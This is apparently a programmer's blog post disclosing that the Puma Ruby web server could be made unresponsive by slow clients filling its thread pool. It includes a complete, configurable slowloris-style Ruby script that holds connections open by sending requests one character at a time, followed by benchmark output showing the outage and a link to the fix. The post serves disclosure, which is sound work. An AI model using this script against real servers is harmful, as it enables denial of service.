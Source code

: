 ```yaml
---
title: Puma and the light
categories: [programming, ruby, lol]
layout: post
---
```


Today after I finished wrapping up [barlume](https://github.com/meh/barlume) I started
thinking about the next steps.

At first I thought about writing a reactor with it and adding a compatibility layer to
make it work like [EventMachine](https://github.com/eventmachine/eventmachine) (and it
will be done), but then I thought about Puma.

[Puma](http://puma.io/) is a very awesome Ruby web server, I really like what it tries to
achieve and by reading the homepage it seems really performant.

So I started digging around the source to see where I could improve its performances and
after seeing the orror of `IO.select` usage (which isn't that bad for how they use it) I
noticed how it handled connections and requests.

{% highlight ruby %}
@thread_pool = ThreadPool.new(@min_threads, @max_threads) do |client, env|
  process_client(client, env)
end
{% endhighlight %}

When it starts it creates a `ThreadPool`, the default minimum is **0** the default maximum is **16**,
after reading more of it, specifically that `process_client` function I realized something else:
it can only handle *maximum threads* clients at a time.

What are the consequences of this sad realization? The consequences are that this simple script
makes *puma* completely unresponsive:

{% highlight ruby %}
#! /usr/bin/env ruby
# encoding: utf-8
require 'socket'
require 'barlume'
require 'optparse'

options = {}

OptionParser.new do |o|
  options[:host]    = 'localhost'
  options[:port]    = 9292
  options[:threads] = 16
  options[:content] = "GET / HTTP/1.1\r\nHost: localhost\r\n\r\n"
  options[:sleep]    = 1

  o.on '-h', '--host host', 'the host of the server' do |value|
    options[:host] = value
  end

  o.on '-p', '--port port', Integer, 'the port of the server' do |value|
    options[:port] = value
  end

  o.on '-t', '--threads [MAX_THREADS]', Integer,
       'the max amount of threads on the server' do |value|
    options[:threads] = value
  end

  o.on '-c', '--content CONTENT', 'the string to send' do |value|
    options[:content] = value
  end

  o.on '-s', '--sleep SECONDS', Float,
       'the time to sleep before sending every character' do |value|
    options[:sleep] = value
  end
end.parse!

class Slowpoke < Barlume::Lucciola
  def initialize (socket, message)
    super(socket)

    @message = message
    @offset  = 0
  end

  def send_next
    return if done?

    write_nonblock @message[@offset]

    @offset += 1
  rescue Errno::EAGAIN, Errno::EWOULDBLOCK
  end

  def done?
    @offset >= @message.length
  end
end

lantern = Barlume::Lanterna.best

options[:threads].times {
  lantern << Slowpoke.new(TCPSocket.new(
    options[:host], options[:port]), options[:content])
}

puts "oh noes, a wall on my path D:"

until lantern.all?(&:done?)
  lantern.writable.each {|s|
    s.send_next
  }

  sleep options[:sleep]
end

puts "oh, there's a door ( ･ ◡◡･)"
{% endhighlight %}

I ran that script on a simple *sinatra* application and prepared to run `ab` to see
how it handled everything, this was the result:

{% highlight text %}
Benchmarking 127.0.0.1 (be patient)...apr_poll: The timeout specified has expired (70007)
{% endhighlight %}

It **dies**.

When the slowpokes are done everything restarts working properly.

So, what's next about all of this? I'll try to write a patch to make it use barlume
and keep it as concurrent as before.

In the meantime I'd suggest to not use it in production or at least with other external
measures to avoid that kind of attack.

EDIT: it has been fixed with [6777c77](https://github.com/puma/puma/commit/6777c771d829a31634b968c74a829cc53b80a144).
